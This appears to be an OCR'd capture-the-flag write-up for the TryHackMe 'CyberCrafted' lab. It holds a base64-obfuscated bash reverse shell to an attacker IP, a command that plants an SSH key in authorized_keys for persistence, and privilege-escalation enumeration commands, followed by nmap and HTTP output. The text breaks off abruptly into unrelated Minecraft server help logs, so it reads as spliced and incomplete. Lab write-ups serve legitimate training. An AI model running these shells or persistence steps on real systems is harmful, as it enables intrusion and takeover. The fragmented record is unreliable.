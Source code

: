 **System Commands:**

- `echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo=' | base64 -d | bash`
- `echo 'ssh-rsa [REDACTED] - SECRET root@kali' >> .ssh/authorized_keys`
- `sudo -l`
- `find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;`
- `groups`
- `find /opt -type f -name "*.txt" 2>/dev/null`
- `find /opt -perm -4000 -type f -exec ls -al {} 2>/dev/null \;`
- `getcap -r / 2>/dev/null`
- `getent group minecraft`
- `SHELL=/bin/bash script -q /dev/null`
- `export TERM=xterm`

### Laboratory Environment

[CyberCrafted](https://tryhackme.com/r/room/cybercrafted)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`

```jsx
PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:ce:b9:ac:72:8a:d7:a6:b7:8e:45:d0:ce:3c:00 (RSA)
|   256 e9:e7:33:8a:77:28:2c:d4:8c:6d:8a:2c:e7:88:95:30 (ECDSA)
|_  256 76:a2:b1:cf:1b:3d:ce:6c:60:f5:63:24:3e:ef:70:d8 (ED25519)
80/tcp    open  http      Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cybercrafted
25565/tcp open  minecraft Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)
```

`nano /etc/hosts`

```jsx
10.10.192.95 cybercrafted.thm
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://cybercrafted.thm`

```jsx
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 11:38:36 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Sun, 12 Sep 2021 10:32:21 GMT
ETag: "340-5cbc9dd1b3eb0"
Accept-Ranges: bytes
Content-Length: 832
Vary: Accept-Encoding
Content-Type: text/html

    <div>
        <img src="assets/index.png">
    </div>
</body>
<!-- A Note to the developers: Just finished up adding other subdomains, now you can work on them! -->
</html>

```

[12:58:13 INFO]: /tp: Teleports the given player (or yourself) to another player or coordinates
[12:58:13 INFO]: /unregister: 
[12:58:13 INFO]: /version: Gets the version of this server including any plugins in use
[12:58:13 INFO]: /weather: Changes the weather
[12:58:13 INFO]: /whitelist: Manages the list of players allowed to use this server
[12:58:13 INFO]: /xp: Gives the specified player a certain amount of experience. Specify <amount>L to give levels instead, with a negative amount resulting in taking levels.